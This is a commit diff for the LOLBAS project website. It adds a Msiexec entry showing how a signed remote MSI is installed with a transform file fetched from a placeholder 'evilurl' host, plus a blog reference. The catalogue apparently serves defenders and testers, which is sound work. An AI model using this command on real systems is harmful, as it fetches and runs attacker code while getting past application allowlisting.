

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Msiexec.md, in a window 1280 px wide and 900 px high, scrolled down 1119 px. Shown: the top 830 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1710 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Applying update LOLBAS-Project/LOLBAS@ee78111254eeaca96c96bf46457928ba726705e1

```diff
--- a/_lolbas/Binaries/Msiexec.md
+++ b/_lolbas/Binaries/Msiexec.md
@@ -32,6 +32,13 @@ Commands:
     Privileges: User
     MitreID: T1218.007
     OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
+  - Command: msiexec /i "https://trustedURL/signed.msi" TRANSFORMS="https://evilurl/evil.mst" /qb
+    Description: Installs the target .MSI file from a remote URL, the file can be signed by vendor. Additional to the file a Transformfile will be used, which can contains malicious code or binaries. The /qb will skip user input.
+    Usecase: Install trusted and signed msi file, with additional attack code as Treansorm file, from remote server
+    Category: Execute
+    Privileges: User
+    MitreID: T1218.007
+    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
 Full_Path:
   - Path: C:\Windows\System32\msiexec.exe
   - Path: C:\Windows\SysWOW64\msiexec.exe
@@ -46,6 +53,7 @@ Detection:
 Resources:
   - Link: https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
   - Link: https://twitter.com/PhilipTsukerman/status/992021361106268161
+  - Link: https://badoption.eu/blog/2023/10/03/MSIFortune.html
 Acknowledgement:
   - Person: netbiosX
     Handle: '@netbiosX'
```
